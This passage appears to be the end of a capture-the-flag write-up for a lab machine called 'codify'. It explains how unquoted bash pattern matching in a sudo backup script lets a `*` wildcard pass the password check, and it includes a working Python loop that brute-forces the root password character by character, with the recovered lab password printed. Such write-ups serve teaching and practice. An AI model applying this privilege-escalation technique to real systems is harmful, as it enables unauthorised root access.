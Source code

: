 The script uses `[[ $DB_PASS == $USER_PASS ]]` to compare the user input with the correct password. This is bad, because it does pattern matching instead of actually comparing two strings with each other. This means that the wildcard character `*` produces `True` in the comparison, since it matches everything. With this knowledge a script was written, which bruteforces the password one character at the time. The script uses the currently known part of the password, appends a new character and `*` to it and checks if the comparison returns `True`. If yes the character gets appended permanently, if no a new character is tried. After a few seconds, this revealed the root password.

```
joshua@codify:~$ python3
Python 3.10.12 (main, Jun 11 2023, 05:26:28) [GCC 11.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> import string
>>> 
>>> valid_chars = string.ascii_letters + string.digits
>>> pw = ""
>>> 
>>> while True:
...     for char in valid_chars:
...         current_pw = pw + char + "*"
...         command = "echo '{}' | sudo /opt/scripts/mysql-backup.sh >/dev/null 2>&1".format(current_pw)
...         ret = os.system(command)
...         if(ret == 0): 
...             pw = pw + char
...             print(pw)
... 
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
```


```
root@codify:~# cat root.txt 
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```


[vm2-vuln]: https://security.snyk.io/vuln/SNYK-JS-VM2-5537100